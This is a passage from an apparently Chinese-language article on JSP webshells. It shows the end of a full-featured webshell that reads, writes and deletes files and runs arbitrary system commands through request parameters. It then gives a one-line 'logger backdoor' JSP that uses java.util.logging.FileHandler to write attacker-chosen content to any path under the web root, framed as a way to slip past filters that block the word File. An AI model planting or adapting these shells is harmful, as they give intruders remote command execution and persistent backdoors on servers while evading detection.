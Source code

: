 ```
z1")+"");String z2=EC(request.getParameter("z2")+"");sb.append("->"+"|");String s=request.getSession().getServletContext().getRealPath("/");if(Z.equals("A")){sb.append(s+"\t");if(!s.substring(0,1).equals("/")){AA(sb);}}else if(Z.equals("B")){BB(z1,sb);}else if(Z.equals("C")){String l="";BufferedReader br=new BufferedReader(new InputStreamReader(new FileInputStream(new File(z1))));while((l=br.readLine())!=null){sb.append(l+"\r\n");}br.close();}else if(Z.equals("D")){BufferedWriter bw=new BufferedWriter(new OutputStreamWriter(new FileOutputStream(new File(z1))));bw.write(z2);bw.close();sb.append("1");}else if(Z.equals("E")){EE(z1);sb.append("1");}else if(Z.equals("F")){FF(z1,response);}else if(Z.equals("G")){GG(z1,z2);sb.append("1");}else if(Z.equals("H")){HH(z1,z2);sb.append("1");}else if(Z.equals("I")){II(z1,z2);sb.append("1");}else if(Z.equals("J")){JJ(z1);sb.append("1");}else if(Z.equals("K")){KK(z1,z2);sb.append("1");}else if(Z.equals("L")){LL(z1,z2);sb.append("1");}else if(Z.equals("M")){String[] c={z1.substring(2),z1.substring(0,2),z2};Process p=Runtime.getRuntime().exec(c);MM(p.getInputStream(),sb);MM(p.getErrorStream(),sb);}else if(Z.equals("N")){NN(z1,sb);}else if(Z.equals("O")){OO(z1,sb);}else if(Z.equals("P")){PP(z1,sb);}else if(Z.equals("Q")){QQ(cs,z1,z2,sb,z2.indexOf("-to:")!=-1?z2.substring(z2.indexOf("-to:")+4,z2.length()):s.replaceAll("\\\\","/")+"images/");}}catch(Exception e){sb.append("ERROR"+":// "+e.toString());}sb.append("|"+"&lt;-");out.print(sb.toString());</jsp:scriptlet></jsp:root> 
```

## 0x02 Java Logger 日志后门

* * *

某些场景下 shell 可能被过滤掉了，但是利用一些有趣的东东可以绕过，比如不用 new File 这样的方式去写文件，甚至是尽可能的不要出现 File 关键字。

看了下 java.util.logging.Logger 挺有意思的，可以写日志文件，于是试了下用这样的方式去写一个 shell，结果成功了。

java.util.logging.Logger 默认输出的格式是 xml，但这都不是事，直接格式化下日志以 text 方式输出就行了。

新建 2.jsp 并访问：

```
<%java.util.logging.Logger l=java.util.logging.Logger.getLogger("t");java.util.logging.FileHandler h=new java.util.logging.FileHandler(pageContext.getServletContext().getRealPath("/")+request.getParameter("f"),true);h.setFormatter(new java.util.logging.SimpleFormatter());l.addHandler(h);l.info(request.getParameter("t"));%> 
```

![enter image description here](img/img3_u87_jpg.jpg)
